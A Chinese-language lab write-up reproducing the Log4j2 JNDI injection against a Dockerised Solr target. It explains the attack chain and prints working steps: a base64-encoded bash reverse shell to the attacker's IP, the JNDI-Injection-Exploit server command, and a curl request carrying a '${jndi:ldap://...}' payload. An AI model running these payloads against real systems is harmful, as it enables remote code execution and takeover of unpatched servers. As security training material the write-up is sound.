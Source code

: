 log4j2 - CTF
===

用 docker 搭建靶机完成渗透, 理解 log4j2 漏洞。

### 靶机准备

首先准备 docker 文件, 编辑 `docker-compose.yaml`:

```yaml
version: '2'
services:
  solr:
    image: vulhub/solr:8.11.0
    ports:
      - "8983:8983"
      - "5005:5005"
```

在同一目录执行 `docker-compose up -d`:

![1-1.png](1-1.png)

拉取完毕后启动镜像, 访问 8983 端口:

![1-2.png](1-2.png)

### log4j2 漏洞原理

#### log4j2

`log4j2` 是 Java 中常用的日志文件框架, 主要是帮助开发者记录程序运行时的信息, 例如调试信息, 运行错误等。

`log4j2` 存在一个关键特性: 支持插入**动态内容**, 例如变量和表达式, 并且支持插件来自定义功能, 比如**解析${xxx}表达式**。

> 看到这里已经有可以渗透的点了, 如果 Log4j2 不对用户的输入进行过滤, 那么就和 sqli 一样存在明显的注入问题。

#### JNDI

JNDI（Java Naming and Directory Interface） 是 Java 的一个 API，用于**访问命名和目录服务**。

简单说，它是一个 "中间人"，允许 Java 程序通过统一接口访问各种资源（如数据库、远程对象、文件系统等）。

在攻击链中, JNDI 是一个 "跳板" , 通过 `jndi:ldap://` 的调用方式触发远程加载恶意类。

#### LDAP

LDAP 是一套轻量级目录访问协议, 其作用类似电话簿, LDAP 支持**通过名称快速查找**, 并且数据保持树形结构, 以层级的方式住址: 如 `A-B-C-D`。

#### 完整攻击链

1. 设计 payload 
构造恶意 payload ,包含`${jndi:ldap://attacker_IP/exploit} `的请求

2. 消息日志解析 
消息日志在生成时, 解析 payload 并产生 jndi 查询。

3. 加载恶意类 
由于 ldap 中填入的是攻击机的 ip, 因此此时调用 LDAP 服务时, 会向攻击方发送请求, 并执行 `exploit` 利用

4. 执行任意代码
如果 `exploit` 中为恶意代码, 例如 shellcode, 那么这里就会直接发送一个**反弹shell**到攻击机上。


### log4j2 漏洞复现

#### 扫描连接


开启靶机端口映射, 这样 kali 才能访问对应端口:

```bash
docker run -d -p 8983:8983 --name log4j2 sha256:052794134d434bc2db0775211589beb372412af333a262dbf7977d28ec8d2142
```

用 nmap 初步扫一下:

![2-1.png](2-1.png)

![2-2.png](2-2.png)

访问一下网页:

![2-3.png](2-3.png)

在 kali 中用 telnet 尝试连接:


#### 构造 payload

首先对 shellcode 作 base64 编码:

```bash
# `192.168.170.145` 为攻击机地址:
echo "bash -i >& /dev/tcp/192.168.170.145/4444 0>&1" | base64
```

![3-1.png](3-1.png)

JNDI 攻击工具需要 Java 8 环境:

> kali 不自带 java 8 环境, 具体安装和多版本切换: [CSDN博客](https://blog.csdn.net/2301_79518550/article/details/147173477)
> ```bash
> # 注册 Java 和 Javac 命令
> sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_202/bin/java" 0
> sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_202/bin/javac" 0
> # 设置默认 Java 版本
> sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_202/bin/java
> sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_202/bin/javac
> ```

确认一下 Java 当前版本:

> 项目地址: [Github](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)

![3-2.png](3-2.png)

然后启动这个 JNDI 注入项目:

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3MC4xNDUvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" -A 192.168.170.145 

```
> `-C`: Base64 编码的反弹 Shell 命令。
> `-A`: 地址, 攻击机 kali 的 ip 。
> 输出为payload: `ldap://192.168.170.145:port/Exploit`

![3-3.png](3-3.png)

`JNDI Links` 中显示的就是利用(Exploit)。

#### 查找 Solr 服务

查看所有 core（核心）名称:

```bash
sudo curl 'http://192.168.170.1:8983/solr/admin/cores?action=STATUS&wt=json'
```

![4-1.png](4-1.png)

可见有一个名为 demo 的接口, 接下来只需要使用这个接口, 让其把 URL 或参数写入日志, 就会触发 JNDI。

#### 触发漏洞

在 kali 上启动端口 4444 的监听, 然后就可以触发这个利用了:

```bash
curl -G \
  --data-urlencode "q=\${jndi:ldap://192.168.170.145:1389/evbn4l}" \
  "http://192.168.170.1:8983/solr/demo/select?wt=json"
```

> 用 `--data-urlencode` 可以让浏览器地址栏自动对某些字符编码, 确保参数准确传到服务器上。

![4-3.png](4-3.png)

![4-2.png](4-2.png)

kali 上已经收到了反弹shell, 至此 log4j2 复现完毕。

~「务必在受控环境中测试，切勿在生产环境随意执行」~